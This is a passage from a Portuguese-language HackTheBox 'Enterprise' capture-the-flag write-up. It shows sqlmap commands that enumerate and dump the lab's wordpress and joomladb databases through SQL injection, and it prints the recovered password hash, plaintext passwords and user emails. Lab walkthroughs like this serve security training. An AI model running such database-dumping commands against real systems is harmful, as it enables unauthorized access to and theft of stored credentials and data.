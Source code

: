 `sqlmap -r lcars.req --batch` (o --batch é ele já dar Yes em tudo que vier)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_burp4.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_burp5.png)

Descobirmos o banco de dados, agora vamos verificar quais são as dbs que existem

`sqlmap -r lcars.req --batch --dbs`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_burp6.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_burp7.png)

Hum... a que nos chamou atenção foi a `wordpress`, então fazemos o dump dela

`sqlmap -r lcars.req --batch -D wordpress --dump`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_burp9.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_burp8.png)

Encontramos um login e um hash de usuário (william.riker:$P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2.)

Encontramos também algo relacionado a senhas! Ta meio ruim de ler, tem que ser bem sutil na olhada, mas ta ai

```
Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_burp12.png)

Não conseguimos quebrar ela, então vamos fazer o dump de outra database

`sqlmap -r lcars.req --batch -D joomladb --dump`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_burp10.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_burp11.png)

Encontramos algo interssante aqui! Dois usuários que não tinhamos visto antes

`geordi.la.forge@enterprise.htb` e `guinan@enterprise.htb`

### Direto no SQLMAP (nas pastas)

Bom, isso realmente demora um bocado pra encontrar, e se o cara passa o olho não ve, praticamente já era... Pra evitar que isso ocorra, você pode deixar rodando o SQLMAP pra fazer dump em todas as databases e depois ir na pasta onde ele salva as coisas e pesquisar por senhas

> `sqlmap -r lcars.req --batch --dump`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_al.png)
